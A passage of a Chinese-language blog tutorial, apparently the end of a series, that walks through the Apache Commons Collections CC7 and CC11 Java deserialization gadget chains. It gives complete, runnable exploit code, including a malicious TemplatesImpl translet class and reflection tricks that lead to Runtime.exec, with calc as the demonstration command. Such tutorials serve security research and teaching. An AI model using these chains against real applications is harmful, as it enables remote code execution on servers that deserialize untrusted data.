        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

但是这里我们运行发现弹出了两个计算器

这是因为在put的时候就命令执行了一次，也就是上面在remove的时候提到过的问题。

这里我们的解决办法是将chainedTransformer中传入的利用链也就是Transformer数组改成空数组，然后在put之后再用反射改回来即可

---

**最终EXP：**

```
package org.mixbp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.*;
import java.util.*;


public class cc7 {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), // 构造 setValue 的可控参数
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null, null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{});

        HashMap<Object, Object> hashMap1 = new HashMap<>();
        HashMap<Object, Object> hashMap2 = new HashMap<>();

        Map decorateMap1 = LazyMap.decorate(hashMap1, chainedTransformer);
        decorateMap1.put("yy", 1);
        Map decorateMap2 = LazyMap.decorate(hashMap2, chainedTransformer);
        decorateMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(decorateMap1, 1);
        hashtable.put(decorateMap2, 1);
        decorateMap2.remove("yy");

        Class c = ChainedTransformer.class;
        Field chainedTransformerField = c.getDeclaredField("iTransformers");
        chainedTransformerField.setAccessible(true);
        chainedTransformerField.set(chainedTransformer,transformers);

        serialize(hashtable);
        unserialize("ser.bin");

    }

    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }


}

```

---

## 总结

完整调用链，这里我就懒得画流程图了

```
Hashtable.readObject()
  → Hashtable.reconstitutionPut()
    → AbstractMap.equals()
      → AbstractMapDecorator.equals()
        → LazyMap.get()
              ChainedTransformer.transform()
                  ConstantTransformer.transform()
                  InvokerTransformer.transform()
                      Method.invoke()
                         Class.getMethod()
                  InvokerTransformer.transform()
                      Method.invoke()
                         Runtime.getRuntime()
                  InvokerTransformer.transform()
                      Method.invoke()
                         Runtime.exec()
```

---

# Commons-Collections CC11链

环境CommonsCollections 3.1-3.2.1

jdk 版本无限制，这里用 jdk8u65 

---

## CC11链分析

这个链子其实就是CC2+CC6

就不过多分析了。

## EXP 编写

### TemplatesImpl 链

先来构造尾部的TemplatesImpl 链

先编写一个恶意类。

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Calc extends AbstractTranslet {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

然后编写TemplatesImpl 的EXP

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


public class cc11 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        // 本地测试语句
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());
        templatesimpl.newTransformer();


    }

    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```

成功弹出计算器。

---

### 与LazyMap.get()结合

接着我们把CC6链和TemplatesImpl链整合一下，先不加入入口类。

`TiedMapEntry` 类中的 `getValue()` 方法调用了 `LazyMap` 的 `get()` 方法

这里重新写一遍LazyMap调用get方法的链子

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


public class cc11 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        // 本地测试语句
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());
//        templatesimpl.newTransformer();

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templatesimpl),
                new InvokerTransformer("newTransformer",null,null),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decorateLazyMap = LazyMap.decorate(hashMap,chainedTransformer);

        Class c = LazyMap.class;
        Method LazyGetMethod = c.getDeclaredMethod("get",Object.class);
        LazyGetMethod.setAccessible(true);
        LazyGetMethod.invoke(decorateLazyMap,chainedTransformer);


    }


    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```

然后CC6的继续往前追的话是`TiedMapEntry` 类中的 `getValue()` 方法调用了 `LazyMap` 的 `get()` 方法。

我们继续加入`TiedMapEntry` 类来写一个EXP。由于这个类作用域是public并且其中的getValue方法作用域是public

所以可以直接调用

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


public class cc11 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        // 本地测试语句
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());
//        templatesimpl.newTransformer();

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templatesimpl),
                new InvokerTransformer("newTransformer",null,null),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decorateLazyMap = LazyMap.decorate(hashMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decorateLazyMap,"aaa");
        tiedMapEntry.getValue();

    }


    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```

也是能够成功弹出计算器。

### 整合入口类

接下来就是入口类了，寻找到同一类下的 `hashCode()` 方法调用了 `getValue()` 方法。

这里也是直接照搬CC6链，找到入口类是HashMap

```
xxx.readObject()
	HashMap.put() --自动调用-->   HashMap.hash()
		后续利用链.hashCode()
```

直接整合HashMap入口类

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


public class cc11 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        // 本地测试语句
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());
//        templatesimpl.newTransformer();

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templatesimpl),
                new InvokerTransformer("newTransformer",null,null),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decorateLazyMap = LazyMap.decorate(hashMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decorateLazyMap,"aaa");
        HashMap<Object,Object> expmap = new HashMap<>();
        expmap.put(tiedMapEntry,"bbb");

        serialize(expmap);
        unserialize("ser.bin");
    }


    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```

可以发现在put的时候就已经触发了计算器，并且后续反序列化不再弹计算器

---

## 完整EXP

还是CC6的那两个问题，提前命令执行，并且put方法执行后HashMap会放入key，导致反序列化后没法命令执行。

很简单先用一个无关类代替利用链，然后在put后remove掉放入的key也就是"aaa"，这样就可以了

完整EXP

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


public class cc11 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

        // 本地测试语句
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templatesimpl),
                new InvokerTransformer("newTransformer",new Class[]{},new Object[]{})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decorateLazyMap = LazyMap.decorate(hashMap,new ConstantTransformer(1)); // 防止在反序列化前弹计算器

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decorateLazyMap,"aaa");

        HashMap<Object,Object> expmap = new HashMap<>();
        expmap.put(tiedMapEntry,"bbb");
        decorateLazyMap.remove("aaa");

        // 在 put 之后通过反射修改值
        Class c = LazyMap.class;
        Field LazyMapFactoryField = c.getDeclaredField("factory");
        LazyMapFactoryField.setAccessible(true);
        LazyMapFactoryField.set(decorateLazyMap,chainedTransformer);


        serialize(expmap);
        unserialize("ser.bin");
    }


    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```

---

## 不带 Transformer 数组的 CC11 链子

前面的链子用到了`Transformer`数组 ，但是CC11链是可以不带Transformer数组的。

我们这里的`Transformer`数组主要是用来传递对象

```
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templatesimpl),
                new InvokerTransformer("newTransformer",new Class[]{},new Object[]{})
        };
```

`LazyMap#get` 的参数 key，会被传进`transform()`，实际上它可以扮演 ConstantTransformer 的角色——一个简单的对象传递者。

并且在CC11链中，这个key我们可以自己定义，我们可以定义成templates对象

```
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, templates);
```

可以LazyMap.get(templates)` 直接调用 `InvokerTransfomer.transform(templates)

然后像CC2那样直接调用 `TempalteImpl.newTransformer()` 来完成后续调用。

先把原本的Transformer 数组改一下，改成

```
Transformer transformers = new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});
```

然后修改后面的代码

```
HashMap<Object,Object> hashMap = new HashMap<>();
Map decorateLazyMap = LazyMap.decorate(hashMap,new ConstantTransformer(1)); // 防止在反序列化前弹计算器

TiedMapEntry tiedMapEntry = new TiedMapEntry(decorateLazyMap,templatesimpl);

HashMap<Object,Object> expmap = new HashMap<>();
expmap.put(tiedMapEntry,"bbb");
decorateLazyMap.remove(templatesimpl);

// 在 put 之后通过反射修改值
Class c = LazyMap.class;
Field LazyMapFactoryField = c.getDeclaredField("factory");
LazyMapFactoryField.setAccessible(true);
LazyMapFactoryField.set(decorateLazyMap,transformers);
```

最终EXP

```
package org.mixbp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;


public class cc11 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesimpl = new TemplatesImpl();
        Class tc = templatesimpl.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templatesimpl,"aaaa");
        Field byteccodesField = tc.getDeclaredField("_bytecodes");
        byteccodesField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("E://tmp/classes/Calc.class"));
        byte[][] codes = {code};
        byteccodesField.set(templatesimpl,codes);

//        // 本地测试语句
//        Field tfactoryField = tc.getDeclaredField("_tfactory");
//        tfactoryField.setAccessible(true);
//        tfactoryField.set(templatesimpl,new TransformerFactoryImpl());


        Transformer transformers = new InvokerTransformer("newTransformer",new Class[]{},new Object[]{});

        HashMap<Object,Object> hashMap = new HashMap<>();
        Map decorateLazyMap = LazyMap.decorate(hashMap,new ConstantTransformer(1)); // 防止在反序列化前弹计算器

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decorateLazyMap,templatesimpl);

        HashMap<Object,Object> expmap = new HashMap<>();
        expmap.put(tiedMapEntry,"bbb");
        decorateLazyMap.remove(templatesimpl);

        // 在 put 之后通过反射修改值
        Class c = LazyMap.class;
        Field LazyMapFactoryField = c.getDeclaredField("factory");
        LazyMapFactoryField.setAccessible(true);
        LazyMapFactoryField.set(decorateLazyMap,transformers);


        serialize(expmap);
        unserialize("ser.bin");
    }


    public static void serialize(Object o) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(o);
    }

    public static Object unserialize(String Filename) throws IOException , ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}

```

---

## 总结

其实就是CC6的前半段（入口类HashMap到LazyMap.get）和CC2的后半段TemplatesImpl链子（InvokerTransformer.transform直接调用newTransformer）的结合

---

# CC链完结撒花

也是把CC链全审完了
